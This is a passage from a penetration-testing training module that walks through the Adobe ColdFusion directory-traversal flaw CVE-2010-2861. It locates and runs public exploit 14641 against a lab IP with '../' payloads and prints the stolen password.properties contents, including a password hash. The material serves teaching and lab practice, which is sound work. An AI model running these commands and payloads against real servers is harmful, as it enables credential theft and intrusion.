</code></pre>
<p>In this example, the <code>../</code> sequences have been used to replace a valid <code>locale</code> to traverse the directory structure and access the <code>passwd</code> file located in the <code>/etc/</code> directory.</p>
<p>Using <code>searchsploit</code>, copy the exploit to a working directory and then execute the file to see what arguments it requires.</p>
<pre><code class="language-shell-session">[!bash!]$ searchsploit -p 14641

  Exploit: Adobe ColdFusion - Directory Traversal
      URL: https://www.exploit-db.com/exploits/14641
     Path: /usr/share/exploitdb/exploits/multiple/remote/14641.py
File Type: Python script, ASCII text executable

Copied EDB-ID #14641's path to the clipboard
</code></pre>
<h4>Coldfusion - Exploitation</h4>
<pre><code class="language-shell-session">[!bash!]$ cp /usr/share/exploitdb/exploits/multiple/remote/14641.py .
[!bash!]$ python2 14641.py 

usage: 14641.py &lt;host&gt; &lt;port&gt; &lt;file_path&gt;
example: 14641.py localhost 80 ../../../../../../../lib/password.properties
if successful, the file will be printed
</code></pre>
<p>The <code>password.properties</code> file in ColdFusion is a configuration file that securely stores encrypted passwords for various services and resources the ColdFusion server uses. It contains a list of key-value pairs, where the key represents the resource name and the value is the encrypted password. These encrypted passwords are used for services like <code>database connections</code>, <code>mail servers</code>, <code>LDAP servers</code>, and other resources that require authentication. By storing encrypted passwords in this file, ColdFusion can automatically retrieve and use them to authenticate with the respective services without requiring the manual entry of passwords each time. The file is usually in the <code>[cf_root]/lib</code> directory and can be managed through the ColdFusion Administrator.</p>
<p>By providing the correct parameters to the exploit script and specifying the path of the desired file, the script can trigger an exploit on the vulnerable endpoints mentioned above. The script will then output the result of the exploit attempt:</p>
<h4>Coldfusion - Exploitation</h4>
<pre><code class="language-shell-session">[!bash!]$ python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"

------------------------------
trying /CFIDE/wizards/common/_logintowizard.cfm
title from server in /CFIDE/wizards/common/_logintowizard.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E&gt;[$_6&amp; \\Q&gt;[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
------------------------------
...
</code></pre>
<p>As we can see, the contents of the <code>password.properties</code> file have been retrieved, proving that this target is vulnerable to <code>CVE-2010-2861</code>.</p>
<hr/>
<h2>Unauthenticated RCE</h2>
<p>Unauthenticated Remote Code Execution (<code>RCE</code>) is a type of security vulnerability that allows an attacker to <code>execute arbitrary code</code> on a vulnerable system <code>without requiring authentication</code>. This type of vulnerability can have severe consequences, as it will <code>enable an attacker to take complete control of the system</code> and potentially steal sensitive data or cause damage to the system.</p>